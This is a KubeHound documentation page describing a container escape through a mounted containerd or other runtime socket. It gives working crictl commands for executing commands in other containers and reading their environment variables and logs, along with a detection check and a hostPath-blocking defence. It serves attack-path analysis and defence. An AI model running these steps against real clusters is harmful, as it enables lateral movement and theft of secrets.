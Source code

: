 ```yaml
---
title: EXPLOIT_CONTAINERD_SOCK
---
```


<!--
id: EXPLOIT_CONTAINERD_SOCK
name: "Container escape: Through mounted container runtime socket"
mitreAttackTechnique: T1610 - Deploy Container
mitreAttackTactic: TA0002 - Execution
coverage: None
-->

# EXPLOIT_CONTAINERD_SOCK

| Source                                | Destination                           | MITRE ATT&CK                                                         |
| ------------------------------------- | ------------------------------------- | -------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Container](../entities/container.md) | [Deploy Container, T1610](https://attack.mitre.org/techniques/T1610/) |

Container escape via the `containerd.sock` file that allows executing a binary into another container.

!!! warning

    This attack is currently __NOT PROCESSED__ during the cluster ingestion.

## Details

When the `containerd.sock` (or other equivalent - see the list below) is mounted inside a container, it allows the container to interact with container runtime. Therefore an attacker can execute any command in any container present in the cluster. This allows an attacker to do some lateral movement across the cluster. 

## Prerequisites

Execution within a container process with the following unix socket being (or any parent directory) being mounted inside the container:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

:rotating_light: sockets mounted as readonly can still be used for this attack. :rotating_light: This can be demonstrated as follows:

```bash
# Create an alpine container with the docker socket mounted as readonly
docker run -v /var/run/docker.sock:/var/run/docker.sock:ro --rm -it alpine sh

# Within the alpine container execute a docker command
docker ps
```

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_CONTAINERD_SOCK.yaml).

## Checks

Look for any socket being mounted in the container by running a simple find command:

```bash
find / -name dockershim.sock -o -name containerd.sock -o -name crio.sock -o -name cri-dockerd.sock  2>/dev/null
```

## Exploitation

To exploit this vulnerability, we will use a CLI for Kubelet Container Runtime Interface (CRI) provided by Google for debugging purposes:  crictl.

```bash
apt update && apt install -f wget tar
wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.0/crictl-v1.27.0-linux-amd64.tar.gz -O /tmp/crictl.tar.gz
tar xvf /tmp/crictl.tar.gz -C /tmp
```

This tools allows to interact with Kubernetes using a unix socket:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

Once you have the path for the mounted socket, configure `crictl` to use it:

```bash
MOUNTED_SOCK_PATH=/host/run/containerd/containerd.sock 
echo "runtime-endpoint: unix://${MOUNTED_SOCK_PATH}
image-endpoint: unix://${MOUNTED_SOCK_PATH}
debug: false" > /tmp/crictl.yaml && alias cc='/tmp/crictl --config /tmp/crictl.yaml'
```

Once everything is configured, you should be able to run command on another container of your choice.

To list all the pods: 

```bash
cc ps -a
```

Executing a command on another pod:

```bash
cc exec -s 05c862f55a017 hostname
``` 

### Notes

The `-s` is important otherwise, `crictl` will try to use the http endpoint to run the command, resulting in errors like:

```bash
FATA[0000] execing command in container: error sending request: Post "http://127.0.0.1:41903/exec/PUpJoUv0": dial tcp 127.0.0.1:41903: connect: connection refused
```

With crictl you can also access sensitive information:
+ `crictl inspect`: access env variable from any container
+ `crictl logs`: retrieve all the logs from any container

## Defences

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount for the following locations:

```bash
/var/run/dockershim.sock
/run/containerd/containerd.sock
/run/crio/crio.sock
/var/run/cri-dockerd.sock
```

## Calculation

+ [ExploitContainerdSock](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_containerd_sock.go)

## References:

+ [CRICTL GitHub](https://github.com/kubernetes-sigs/cri-tools/blob/419e153f330a5f6175aa9b6a03b339080c58ca3e/docs/crictl.md)
+ [Debugging Kubernetes nodes with crictl](https://kubernetes.io/docs/tasks/debug/debug-cluster/crictl/)
